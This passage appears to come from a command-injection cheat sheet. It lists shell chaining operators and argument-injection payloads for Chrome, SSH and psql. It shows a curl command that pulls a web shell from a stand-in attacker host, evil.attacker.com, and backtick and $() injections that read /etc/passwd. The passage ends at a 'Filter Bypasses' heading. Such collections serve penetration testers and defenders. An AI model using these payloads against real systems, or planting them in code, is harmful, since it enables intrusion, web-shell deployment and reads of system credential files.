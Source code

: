 ```powershell
command1; command2   # Execute command1 and then command2
command1 && command2 # Execute command2 only if command1 succeeds
command1 || command2 # Execute command2 only if command1 fails
command1 & command2  # Execute command1 in the background
command1 | command2  # Pipe the output of command1 into command2
```


### Argument Injection

Gain a command execution when you can only append arguments to an existing command.
Use this website [Argument Injection Vectors - Sonar](https://sonarsource.github.io/argument-injection-vectors/) to find the argument to inject to gain command execution.

* Chrome
    ```ps1
    chrome '--gpu-launcher="id>/tmp/foo"'
    ```

* SSH
    ```ps1
    ssh '-oProxyCommand="touch /tmp/foo"' foo@foo
    ```

* psql
    ```ps1
    psql -o'|id>/tmp/foo'
    ```

Sometimes, direct command execution from the injection might not be possible, but you may be able to redirect the flow into a specific file, enabling you to deploy a web shell.

* curl
    ```ps1
    # -o, --output <file>        Write to file instead of stdout
    curl http://evil.attacker.com/ -o webshell.php
    ```
    

### Inside a command

* Command injection using backticks. 
  ```bash
  original_cmd_by_server `cat /etc/passwd`
  ```
* Command injection using substitution
  ```bash
  original_cmd_by_server $(cat /etc/passwd)
  ```


## Filter Bypasses
